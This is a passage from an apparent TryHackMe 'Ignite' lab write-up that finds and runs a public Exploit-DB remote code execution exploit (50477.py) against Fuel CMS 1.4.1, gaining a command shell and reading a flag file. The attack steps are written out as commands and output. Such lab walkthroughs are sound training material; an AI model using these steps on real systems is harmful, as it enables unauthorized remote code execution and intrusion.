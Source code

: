 ## Exploitation

Try to **search the exploit for the Fuel CMS**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ searchsploit fuel cms     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                 | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                 | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                 | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)       | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenti | php/webapps/48778.txt
Fuel CMS 1.5.0 - Cross-Site Request Forgery (CSRF)         | php/webapps/50884.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

From here, I used the **RCE (3) exploit**. First, let's **copy the exploit** to our directory:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/50477.py /PATH/TO/WORKING/DIRECTORY/fuelcmsexploit.py
```

Now, to run the **exploit**, we need to **add our url** here:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ python3 fuelcmsexploit.py  
usage: python3 fuelcmsexploit.py -u <url>
```

I used the **normal url** here:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Ignite]
└─$ python3 fuelcmsexploit.py -u http://<TARGET-IP>/
[+]Connecting...
Enter Command $
```

Nice, now let's **list the available user** in the server:
```
Enter Command $ls -la /home
systemtotal 12
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data
```

Try to list the file in the **www-data** directory and read the **"flag.txt"**:
```
Enter Command $ls -la /home/www-data
systemtotal 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt


Enter Command $cat /home/www-data/flag.txt
system<USER-FLAG>
```
